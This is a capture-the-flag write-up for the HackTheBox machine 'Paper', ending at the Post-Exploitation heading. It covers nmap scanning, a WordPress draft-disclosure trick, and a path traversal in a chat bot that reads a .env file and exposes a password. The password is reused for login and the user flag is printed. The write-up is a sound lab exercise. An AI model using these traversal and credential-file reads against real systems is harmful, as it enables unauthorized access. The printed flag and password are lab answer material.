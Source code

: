 # Paper

## Enumeration

nmap:
```bash
┌──(kali㉿kali)-[~/Sec/HackTheBox/Machines/Paper]
└─$ nmap -sC -sV 10.10.11.143 -oA scans/nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-09 14:02 EDT
Nmap scan report for 10.10.11.143
Host is up (0.049s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.00 seconds
```

### Port 80

In head:
```html
<meta name="generator" content="HTML Tidy for HTML5 for Linux version 5.7.28">
<title>HTTP Server Test Page powered by CentOS</title>
```

`/cgi-bin` folder is present.

PHP Version: `PHP/7.2.24`.

Header: `X-Backend-Server: office.paper`.

Server: `Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9`.

When adding `office.paper` to `/etc/hosts`:

![](Pasted%20image%2020220609143951.png)

Users found:
- prisonmike
- jan
- nick

Nick said: `Michael, you should remove the secret content from your drafts ASAP`.

WordPress version: `5.2.3`

## Enumeration

On Google: https://www.exploit-db.com/exploits/47690

On this link, drafts are disclosed: http://office.paper/?static=1

Secret found:

```bash
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY
```

Adding `chat.office.paper` to `/etc/hosts` show this page:

![](Pasted%20image%2020220609150712.png)

Once logged in the chat, a bot is present, which can be DM'd:

```
recyclops file ../hubot/.env

-   Bot 3:18 PM
    
    <!=====Contents of file ../hubot/.env=====>
    
-   <!=====Contents of file ../hubot/.env=====>
    
-   export ROCKETCHAT_URL='[http://127.0.0.1:48320](http://127.0.0.1:48320)'  
    export ROCKETCHAT_USER=recyclops  
    export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
    export ROCKETCHAT_USESSL=false  
    export RESPOND_TO_DM=true  
    export RESPOND_TO_EDITED=true  
    export PORT=8000  
    export BIND_ADDRESS=127.0.0.1
```

After a test: `dwight:Queenofblad3s!23` is a set of credentials.

`user.txt`: `a12dcdd01eb80810afdb46d937714d4f`

## Post-Exploitation

